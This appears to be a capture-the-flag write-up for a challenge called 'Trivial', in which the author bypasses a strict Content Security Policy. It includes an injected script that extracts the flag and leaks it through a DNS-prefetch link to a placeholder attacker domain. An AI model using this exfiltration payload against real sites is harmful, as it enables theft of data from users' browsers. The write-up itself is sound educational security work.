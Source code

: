 # Trivial

### Problem 

The flag is stored in the localStorage of a browser located on the server. We are given a route to inject HTML into an iframe into the home page opened on the browser. The page sets a Content Security Policy of `default-src 'none';` effectively blocking all requests, even to itself. The iframe also has a sandbox restriction of `allow-scripts`, which prevents popups and access to the parent document, but allows scripts.

### Solution

I did not solve this challenge during the contest window. However I did try out the solution myself afterwards. 

Obtaining the flag is easy, we can extract the contents of the flag using a simple regex on the document text: 
```js
/CTF\{(.*)\}/.exec(document.body.innerText)[1];
```
Due to the strict Content Security Policy, there was hardly a way to do it. However it appears that using DNS prefetching can bypass this, and the flag can be received by logging DNS requests. 

[messwithdns](https://messwithdns.net/) was a suggested tool, so by clicking `Start Experimenting` and then using the subdomain in the following HTML, we can bypass the CSP and obtain the flag in the request log: 
```html
<script>
document.getElementsByTagName('body')[0].innerHTML += `\<link rel="dns-prefetch" href="//${/CTF\{(.*)\}/.exec(document.body.innerText)[1]}.DOMAIN_HERE"\>`
</script>
```


[//]: # I did not obtain the actual flag but it works on local server. 

